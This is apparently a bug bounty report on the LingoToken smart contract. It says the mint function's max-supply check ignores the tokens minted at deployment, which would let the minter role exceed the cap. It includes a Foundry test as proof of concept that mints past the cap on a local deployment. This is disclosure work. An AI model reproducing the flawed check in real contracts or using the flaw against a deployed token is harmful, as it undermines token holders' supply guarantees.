 *Platform: Hackenproof*

Status: Valid finding but does not lies in-scope attack vectors

Severity: Medium

### Title: Incorrect total supply validation check in `LingoToken::mint` function can leads to potentially minting more tokens than `MAX_SUPPLY`

## Description: The LingoToken::mint function is designed to mint tokens for the address to with the specified amount. Before minting, it checks whether the new tokens would 
exceed the MAX_SUPPLY limit. However, the function fails to account for the initialSupply of tokens that are minted during contract deployment to the deployer. Since these 
tokens are already in circulation, ignoring them allows the MINTER_ROLE address to mint additional tokens, potentially exceeding the MAX_SUPPLY limit.

https://github.com/avicenne-studio/lingo-token-contracts/blob/8c46c38ae2b9b71be093a882f2c01302747d0d3b/contracts/LingoToken.sol#L152-L157

## Proof Of Concept:

```solidity
pragma solidity 0.8.20;

import "forge-std/Test.sol";
import "../contracts/LingoToken.sol";

contract LingoTokenTest is Test {
    LingoToken lingoToken;

    address admin = address(uint160(uint256(keccak256("admin"))));
    address treasury = address(uint160(uint256(keccak256("treasury"))));
    address minter = address(uint160(uint256(keccak256("minter"))));
    address user = address(uint160(uint256(keccak256("user"))));

    uint256 initialSupply = 100_000 * 10 ** 18; // 100,000 tokens
    uint256 maxSupply = 1_000_000 * 10 ** 18;  // 1,000,000 tokens
    uint256 transferFee = 500;                // 5%

    function setUp() public {
        vm.startPrank(admin);
        lingoToken = new LingoToken(initialSupply, treasury, transferFee);
        lingoToken.grantRole(lingoToken.MINTER_ROLE(), minter);
        vm.stopPrank();
    }

    function testMintExceedsMaxSupply() public {
        vm.startPrank(minter);

        uint256 remainingSupply = maxSupply - initialSupply;
        uint256 mintAmount = remainingSupply + 1; // exceeds the max supply

        lingoToken.mint(user, mintAmount);

        uint256 balance = lingoToken.balanceOf(user);
        emit log_named_uint("Balance of user:", balance);

        vm.stopPrank();
    }

}
```
